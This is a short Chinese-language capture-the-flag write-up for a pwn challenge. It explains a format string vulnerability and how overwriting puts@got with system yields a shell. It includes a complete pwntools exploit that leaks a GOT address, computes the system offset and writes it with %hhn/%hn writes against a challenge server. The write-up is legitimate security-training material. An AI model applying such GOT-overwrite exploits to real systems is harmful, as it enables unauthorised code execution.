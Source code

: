 # W2 puts or system

## 文件分析

下载`putsorsys`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 逆向

程序可多次输入，且存在格式化字符串漏洞；在printf后，执行了`puts("/bin/sh")`  
根据题意，将puts调用替换为system调用就可以拿到shell

由于程序relro保护为partial，因此可以直接将`puts@got`地址改为system地址即可

## 踩过的坑

%n系列写地址输出过的字符是**累计的**，所以计算失误就会导致攻击失败，
因此可以把小的数字放在前面，大的数字放在后面，方便计算

## EXPLOIT

```python
from pwn import *
elf = ELF('putsorsys')
sh = remote('node4.buuoj.cn', 29595)
putsGot = elf.got['puts']

# payload 1
sh.sendline(b'1')
sh.sendlineafter(b'it', b'%9$sxxxx' + p64(putsGot)) # get puts@got

sh.recvuntil(b':\n')
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
#addr = putsGotAddr - 0x179bf0 + 0x14f760
addr = putsGotAddr - 0x180ed0 + 0x150d60 # libc given, shift puts to system
print(hex(addr))

# payload 2
sh.sendline(b'1')
highAddr = (addr & 0xff0000) >> 16
sh.sendlineafter(b'it', f'%{highAddr}c%11$hhn%{(addr & 0xffff) - highAddr}c%12$hn'.ljust(24, '0').encode() + p64(putsGot + 2) + p64(putsGot))

sh.interactive()
```

Done.
